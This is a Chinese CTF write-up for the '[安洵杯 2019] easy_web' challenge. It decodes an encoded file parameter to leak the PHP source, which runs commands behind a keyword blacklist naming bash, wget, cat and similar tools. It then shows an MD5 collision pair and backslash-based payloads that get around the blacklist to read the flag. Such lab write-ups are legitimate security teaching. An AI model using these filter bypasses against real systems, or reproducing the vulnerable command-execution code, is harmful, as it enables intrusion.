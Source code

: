 # \[安洵杯 2019]easy\_web

## \[安洵杯 2019]easy\_web

## 考点

* fastcoll进行md5碰撞
* 命令执行bypass

## wp

进去发现URL有问题`index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=`

尝试对其base64解码，发现解不出，加个`=`再试试，两次base64，一次hex

```
TXpVek5UTTFNa1UzTURaRk5qYz0=
MzUzNTM1MkU3MDZFNjc=
3535352E706E67
555.png
```

读取index.php，`index.php?img=TmprMlpUWTBOalUzT0RKbE56QTJPRGN3`

得到代码

```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}
?>
```

MD5是强制转换为string再比较，只能使用fastcoll进行碰撞

![](<../../.gitbook/assets/image (20).png>)

`fastcoll_v1.0.0.5.exe -p a.txt -o 1.txt 2.txt`

```
a=dada%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%81z%CE%10%97%DD%29%E5%E7%82%C4%F0%05n%BE%87ykQ%A9p%D2%9D%B83jC%BA%CA%A1F%FA%17%1D%10%C0N%87%2BPG%22%E1C%8F5%3E%87%14%81%80%1D%AB0%ACF%C7%0E%BD%A6%E8%C4%269%C9y%18%D9j%84%07%93w2%26%0D%C9%E89O2%1C%DA2%0D%26F%25%D1Zv%3D%ECG%DE%E5f%A5%C6%1A%F4%D2%FF%CC%CAsx%B7%B6de%26n%0B%EF%1D%83m%EB%08%B8%9F%AB%3FVZ%9A%E8&b=dada%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%81z%CE%10%97%DD%29%E5%E7%82%C4%F0%05n%BE%87ykQ%29p%D2%9D%B83jC%BA%CA%A1F%FA%17%1D%10%C0N%87%2BPG%22%E1C%8F%B5%3E%87%14%81%80%1D%AB0%ACF%C7%0E%BD%26%E8%C4%269%C9y%18%D9j%84%07%93w2%26%0D%C9%E89O2%1C%DA%B2%0D%26F%25%D1Zv%3D%ECG%DE%E5f%A5%C6%1A%F4%D2%FF%CC%CAsx%B7%B6%E4d%26n%0B%EF%1D%83m%EB%08%B8%9F%AB%BFVZ%9A%E8
```

然后绕命令执行，虽然禁用了ls，但是dir还可以使用

![](<../../.gitbook/assets/image (10) (1) (1).png>)

空格不能直接敲，要用用%20代替，

过滤了`flag`和`cat`，用`\`绕过，`?cmd=ca\t%20/fl\ag` 查看flag

或者是`?cmd=sort%20/fl\ag`
